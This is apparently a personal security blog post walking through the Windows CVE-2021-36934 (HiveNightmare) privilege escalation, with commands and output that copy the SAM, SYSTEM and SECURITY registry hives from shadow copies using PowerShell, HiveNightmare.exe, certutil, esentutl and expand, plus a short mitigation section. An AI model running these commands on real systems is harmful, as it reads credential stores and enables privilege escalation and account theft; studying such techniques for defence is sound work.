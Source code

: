 ```yaml
---
layout: post
title: Abusing CVE-2021-36934 Windows privilege escalation
categories: [PrivEsc, Windows]
---
```



## **Intro**

Yesterday I start looking into CVE-2021-36934. This vulnerability abuse permissions of important files like SAM, ntds.dit, etc... All file location is C:\windows\system32\config

```powershell
PS C:\Users\user\test> icacls C:\Windows\System32\config\sam
C:\Windows\System32\config\sam BUILTIN\Administrators:(I)(F)
                               NT AUTHORITY\SYSTEM:(I)(F)
                               BUILTIN\Users:(I)(RX)
                               APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                               APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

As you can see **BUILTIN\Users** have read access. I cant access this file as is currently used by windows processes by default. But Windows 10 have ability to have shadow copies. What is interesting is windows will always create shadow copy when provide system update. This will make sense as system after unsuccessful upgrade can revert back to last stable version.

## **Issues**

There is chance you dont have any shadows copied enabled and thats fine. In your environment you can enable it by running this [command](https://www.dxsdata.com/2017/10/windows-10-enable-and-configure-vss-shadow-copies/). 

```cmd
wmic shadowcopy call create Volume=c:\
```

I used [this tool](https://www.nirsoft.net/utils/shadow_copy_view.html) to confirm I have shadows copies. 

![](/images/cve202136934/vss.png)

As **Snapshot Name** there are 2 possible shadows copies I have on system. In examples below I only concern on first one. As attacker you dont have access to names and you have to enumerate. Most stupid and simples solution is wrap everything in powershell and one-liner 

```powershell
 $> 1..10 | % { expand "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy$_\Windows\System32\config\SYSTEM" c:\users\user\test\system$_ }
Microsoft (R) File Expansion Utility
Copyright (c) Microsoft Corporation. All rights reserved.

Copying \\?\globalroot\device\harddiskvolumeshadowcopy1\windows\system32\config\system to c:\users\user\test\system1.
\\?\globalroot\device\harddiskvolumeshadowcopy1\windows\system32\config\system: 12582912 bytes copied.

Microsoft (R) File Expansion Utility
Copyright (c) Microsoft Corporation. All rights reserved.

Copying \\?\globalroot\device\harddiskvolumeshadowcopy2\windows\system32\config\system to c:\users\user\test\system2.
\\?\globalroot\device\harddiskvolumeshadowcopy2\windows\system32\config\system: 12582912 bytes copied.

Microsoft (R) File Expansion Utility
Copyright (c) Microsoft Corporation. All rights reserved.

Can't open input file: \\?\globalroot\device\harddiskvolumeshadowcopy3\windows\system32\config\system.

Microsoft (R) File Expansion Utility
Copyright (c) Microsoft Corporation. All rights reserved.

Can't open input file: \\?\globalroot\device\harddiskvolumeshadowcopy4\windows\system32\config\system.
redacted...
 ```

 I was surprised that this worked on first time :) I loop from 1 to 10 and everytime there is symbol like this **$_** in command, it is replaced with number. Script is noisy and super ugly but working...




## **POC**

Kevin Beaumont posted exploit on his [github](https://github.com/GossiTheDog/HiveNightmare)

```cmd
PS C:\Users\user\downloads> .\HiveNightmare.exe

HiveNightmare v0.5 - dump registry hives as non-admin users

Specify maximum number of shadows to inspect with parameter if wanted, default is 15.

Running...

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

Success: SAM hive from 2021-07-22 written out to current working directory as SAM-2021-07-22

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY

Success: SECURITY hive from 2021-07-22 written out to current working directory as SECURITY-2021-07-22

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM

Success: SYSTEM hive from 2021-07-22 written out to current working directory as SYSTEM-2021-07-22

Assuming no errors above, you should be able to find hive dump files in current working directory.
```

This application pull SAM, SYSTEM and SECURITY files from my shadow copy. 

## **Abusing Lolbas**

After looking for more resources someone on twitter posted interesting option to use certutil - if someone find this post please let me know as this person deserve credit and I cant find it.... 

```
certutil -encode "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM" C:\users\user\test\SYSTEM.b64
```

This command will b64 encode SYSTEM file and save it to our destination. I can quickly run same program but with decode function

```
certutil -decode C:\users\user\test\SYSTEM.b64 C:\users\user\test\SYSTEM
```

Not I have SYSTEM file in my folder. That got me thinking if there is another lolbas application that can do "dirty work for me".

### Esentutl.exe

No problem for here :) 

```powershell
esentutl.exe /y "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\System32\config\SECURITY" /d C:\users\user\security /o
esentutl.exe /y "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM" /d C:\users\user\sam /o
esentutl.exe /y "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM" /d C:\users\user\system /o
```

Esentutl have option /vss to copy directly from shadow copies. But we hit road block here

```powershell
PS C:\Users\user\test> esentutl.exe /y /vss c:\windows\system32\config\system /d c:\users\user\test\system

Extensible Storage Engine Utilities for Microsoft(R) Windows(R)
Version 10.0
Copyright (C) Microsoft Corporation. All Rights Reserved.

Initializing VSS subsystem...

   VSS Subsystem Init failed, 0x80070005
Operation terminated with error -2403 (JET_errOSSnapshotNotAllowed, OS Shadow copy not allowed (backup or recovery in progress)) after 0.16 seconds.
```

**Expand.exe & Extract32.exe**

Expand.exe and Extract32.exe gladly copy files I needed.

```powershell
expand "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM" c:\users\user\test\system
expand "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM" c:\users\user\test\sam
expand "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY" c:\users\user\test\ssecurity
```

## **Commands that did not work**

Lolbas contain allpication that can copy files. I tried all of them here and few did not work. 

**Print.exe**

```powershell
PS C:\Users\user\test> print /D:C:\users\user\test\SYSTEM \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM
Can't find file \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM
```
Seems like print command cant access my shadow copy.

**Replace.exe**

```powershell
PS C:\Users\user\test> replace.exe \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\users\user\test /A
PS C:\Users\user\test> dir
PS C:\Users\user\test>
```

This command did not return any error so not sure what happen.  ¯\\_(ツ)_/¯

## **Mitigation**

Hazcod posted fix for this [issue](https://gist.github.com/hazcod/9cef0e6e9ca3a7c90c4b8e0d90ec9dce#file-cve-2021-36934-bat)
He delete all current shadow copies and applied rules to remove inheritance to misconfigured folder. And will create new shadow copy. This tricks seems to stop this attack vector

```powershell
C:\Users\user\Downloads>.\HiveNightmare.exe

HiveNightmare v0.5 - dump registry hives as non-admin users

Specify maximum number of shadows to inspect with parameter if wanted, default is 15.

Running...

Could not open SAM :( Is System Protection not enabled or vulnerability fixed?  Try increasing the number of VSS snapshots to search - list snapshots with vssadmin list shadows

C:\Users\user\Downloads>
```



## **Results**

Wau I never thought this will be relatively easy to pull. I believe there is even more options to somehow extract information you need. I will update this post if new techniques already exist.

Thank you for reading. 


